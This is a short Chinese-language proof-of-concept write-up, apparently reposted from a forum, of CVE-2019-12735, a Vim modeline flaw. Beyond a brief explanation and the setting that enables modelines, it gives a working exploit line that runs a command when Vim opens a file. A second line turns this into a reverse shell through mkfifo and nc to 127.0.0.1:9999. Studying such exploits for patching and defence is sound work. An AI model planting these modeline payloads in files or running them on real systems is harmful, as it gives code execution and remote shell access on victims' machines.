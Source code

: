 # （CVE-2019-12735）vim modeline

> 原文：[https://www.zhihuifly.com/t/topic/3492](https://www.zhihuifly.com/t/topic/3492)

# （CVE-2019-12735）vim modeline

该漏洞存在于编辑器的 modeline功能，部分 Linux 发行版默认启用了该功能，macOS 是没有默认启用。 当vim打开一个包含了vim modeline注释行的文件时，会自动读取这一行的参数配置并调整自己的设置到这个配置。vim默认关闭modeline。 开启：

```
vim ~/.vimrc
//文件内容为
set modeline 
```

```
poc:
:!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt=" 
```

![image](img/dc8dad288e07d3184d089aadf2f403ae.png)

反弹shell：

```
:!rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1  9999 >/tmp/f||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt=" 
```

![image](img/73bd333857e534c951328903856de2e5.png)
